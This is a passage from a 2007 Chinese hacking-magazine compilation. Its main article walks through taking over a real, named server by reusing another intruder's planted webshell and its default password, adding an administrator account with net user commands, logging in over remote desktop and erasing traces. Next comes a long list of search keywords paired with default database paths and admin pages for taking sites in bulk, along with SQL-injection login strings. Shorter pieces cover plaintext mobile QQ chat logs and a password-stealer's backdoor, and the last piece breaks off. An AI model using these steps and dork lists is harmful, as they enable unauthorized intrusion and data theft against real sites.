# 非安全黑客手册合订本2007年③④季第二部分

---

## 2. 做好自我防护

在进行安全检查或者入侵时，一定要做好自我防护，很多存在安全漏洞的网站都被先期入侵者攻克，服务器往往被大量挂马，如果入侵服务器的是高手，弄一些 0day 来挂，呵呵，估计你就惨了，因此我们在入侵或者研究技术时，尽可能在肉鸡或者虚拟机上面进行。我通过在浏览器中直接输入 IP 后，结果出来一个很痞的东西，如图 3。当然我的杀毒软件检测出来该网页已被敌人挂马。


## 三、深入“敌人”阵地

## 1. 进入 webshell 管理

当我们不了解对方时，都可以当成敌人，哈哈。在浏览器中输入查询的结果 140.127.80.42/yeh/uploads/upfile/4_showdata.php，输入默认密码“456655”，芝麻开门，进入 webshell 管理，如图 4。

在网页上面有一些错误提示，可以不管它。

## 2. 执行命令

进入 webshell 后，最关键的是判断 webshell 有什么样的权限，否则弄半天也不能完全控制服务器就没有什么意思了。在 webshell 控制主界面中单击“webshell”，在命令中输入“net user”并单击“运行”按钮，看看有什么用户，如图 5，然后再次输入“net user aspnet aspnet add”添加用户，输入“net localgroup administrators aspnet add”命令将 aspnet 用户提升为管理员权限，如图 6。







说明：在繁体中文中，如果添加用户中出现了“Ln”字样，就表明账号添加成功。

再次输入“net localgroup administrators”查看目前具有管理员权限的用户，如图 7，在结果中我们看见了添加的用户“aspnet”。



## 3. 检查 3389 远程终端开放情况

对于检查 3389 远程终端情况有很多种，我不赘述，由于可以直接执行命令，因此在 webshell 中输入“netstat -an”或者“netstat -an|find "3389"”查看 3389 端口是否打开。在本例中，我们可以看到该计算机 3389 端口是打开的，如图 8。





本地开放了 3389 端口也不一定能够从远端连接，因此还需要在肉鸡或者自己的计算机上查看该 IP 地址对外端口开放情况。我们使用“sfind -p 140.127.80.42”查看端口开放情况，出来的结果中表明我们能够连接该远程终端服务，如图 9。（其实还有很多简单方法，比如直接 Telnet 一下）。

## 4. 使用 3389 登录

既然开放了 3389 端口，还等什么，直接连接吧。输入用户名和密码，ok，直接进入该计算机，如图 10。





## 四、渗透和扫尾

使用 net view 看看服务器网络情况，如图 11，看看是否存在弱口令，进行 sql 弱口令扫描，arp 挂马等等。由于该计算机已经被植入马在先，因此该计算机只能是试验的场所。所以在操作时应该小心为主，最后清除自己在入侵过程留下的痕迹。

> **编辑点评：**
文章的例子，只能说作者的运气不错，现在能碰上不需要提权的服务器做梦都会笑出来了。所以我们抛开技术层面，单作者的思路也是值得小菜学习的，你可以放弃一些主流的入侵方法，在角落可能会有很大的发现，毕竟用的人少的东西研究的人也少，未被发现的问题就会越多。

## 五、结束语

本文仅仅是一个控制肉鸡的思路，通过默认的口令来实施控制。从“高手”中收获肉鸡，其技术难度非常低。所以说，入侵不一定要技术高，关键要想得到，思维和创新是入侵成功的必然条件。


**从本文您可以学到：**
了解 Webshell 时常用的关键字和技巧

- 添加后缀：/admin/login.asp （后台管理地址，管理员帐号密码=admin）

- **关键字：** by wygk
- **添加后缀：** /data/scadata.mdb

为了交流技术最近新建了一个菜菜群，加了不少《黑手》中的黑兄，发现小菜们谈论最多的话题就是我养的鸡又飞了、马儿没地方挂！哎~！苦了小菜们。没办法！谁让俺是群主呢！只有挺身而出了！

- **工具：**
  - 挖掘机
  - 辅臣数据库浏览器

- **关键字：** Power System Of Article Management Ver 3.0 Build 20030628
- **添加后缀：** /database\yiuwekdsodksldfslwifds.mdb
- **默认后台：** /admin_index.asp

- **关键字：** 本站部分信息由企业自行提供，该企业负责信息内容的真实性、准确性和合法性
- **添加后缀：** /data/scadata.mdb
- **默认后台：** /admin/index.asp

- **关键字：** Foosun
- **添加后缀：** /Foosun_Data/FS400.mdb
- **默认后台：** /admin/login.asp

- **关键字：** Powered By Kesion Inc
- **添加后缀：** /ks_data/ks_database.mdb

- **关键字：** 您现在所在的位置： 首页 >> 高贝主页
- **添加后缀：** /upfile_photo.asp （明小子直接上传）

可能有人要问了，你怎么知道这么多？一句话——来自平时的收集，现在大部分网站都存在默认数据库的漏洞。当你千辛万苦得到一个 Webshell 可否想过用此数据库与首页的关键字来批量拿 Shell？如果你想到了那你真是太有才了！又有人要问了，以前要是没人侵过站呢？那我就代表所有的站长先谢谢你了。方法也很简单，到“中国站长站”或“源码之家”找刚发布不久的程序的说明（成功率相当高）。如没找到数据库地址则将其下载研究就是了。

- **关键字：** Powered By Dvbbs Version 7.1.0 Sp1
- **添加后缀：** /Databackup/dvbbs7_Backup.mdb

- **关键字：** inurl:hack.asp
- **添加后缀：** system/mdb/system.asp （默认数据库）

- **关键字：** 程序版本：Power WenDay Ver1.0
- **添加后缀：** /db/PW_SYS_Data.mdb

在指定入侵网站时大家不妨试试：
- site:www.***.com inurl:(../uploadfile/) ewebeditor 漏洞（据说中国排名前十的高校都存在此漏洞，杀伤力极大）
- site:www.***.com inurl:article_print?asp= 动力打印页面存在注入漏洞

- **关键字：** powered by WEBBOY
- **添加后缀：** /upfile.asp （明小子直接上传）

- **关键字：** Powered By : SMT Version 5.0
- **添加后缀：** /bbs/upfile.asp /upfile_flash.asp （明小子直接上传）

本文只是给大家提供一种思路，更好的方法有待大家挖掘（找到后可不要忘了我哦！）。欢迎大家和我探讨，有什么不懂的地方可以到论坛来找我。我的 ID 是 xyzizai。

- **关键字：** team5 studio all rights reserved
- **添加后缀：** /data/team.mdb

- **关键字：** 传奇私服
- **添加后缀：** /msmirdata/msmirArticle.mdb
- **默认后台：** http://您的域名/msmiradmin/

> **编辑点评：**
作者经验的总结，相信在以后的入侵中会给你不少帮助，我们要看得远，就要站在巨人的肩膀上。

- **关键字：** 同城约会 贺卡传情 情感随笔 热门投票
- **添加后缀：** /admin/upload_file.asp （明小子直接上传）



- **关键字：** 公司后台
- **添加后缀：** /manage/Login.asp （用 "or"="or"）

- **关键字：** 企业邮局 企业荣誉 营销网络 产品分类 信息反馈 联系我们 收藏本站 网站管理

# 手机 QQ 聊天记录随意看

JiaJia [YulV]

**从本文您可以学到**
通过 SeleQ 文件管理器查看手机 QQ 的聊天记录

前段时间下载了一个手机 QQ2007，感觉还不错。这个手机 QQ2007 有聊天记录功能，有时候借给别人拿上去用完后，下次我要上时却总是显示最后一次上过的人的 QQ 号码，我还要自己改回我的号码才可登录（嘿嘿，我比较懒。）。

后来我使用 SeleQ 文件管理器在我的手机 MMC 存储卡上的 QQ2007 目录翻来翻去，结果发现聊天记录是用多个 .db 文件来储存的（如果你的 QQ 安装在储存卡中，那么聊天记录文件则在 E:\System\Apps\QQ\QQ2007\[要查看的 QQ 号码]\msg\[对方 QQ 号码].db），并且用 SeleQ 文件管理器中的 Unicode 方式编辑可以看见聊天原文。这不得不引起我们的注意了，这其中存在一定的隐私泄漏风险。

我是在 Nokia 3230 + QQ2007b1 + SeleQ（最新版为 System Explorer）通过测试的，相关图片如下。

**编辑点评：**
仅仅是一个简单的本地信息加密，为什么不做呢？没想到吗？地球上大多数的安全隐患都是我们自己的疏忽造成的，如果这还不能引起你的注意，那地球就太危险了，快回火星去吧！呵呵……



# QQ 盗号软件后门分析与反击

fhod 小财

+ 从本文您可以学到：
1. 如何分析一个木马是否安全
2. 通过木马自身的编写缺陷进行反击

今天无聊给一朋友讲解 QQ 盗取原理，从网上找了一个工具“明小子 QQ 密码特工”，结果发现这个软件有后门。下面就让我带着大家来分析一下。

首先我们用 nod32 来查一下有没有毒，如图 1。

看到了吧，没有病毒。我们把监控打开然后再看看，如图 2。

看到了吧，NOD32 检测到了病毒。为了确认一下，我再用“木马辅助查找器”的文件监视功能来检测下，如图 3。







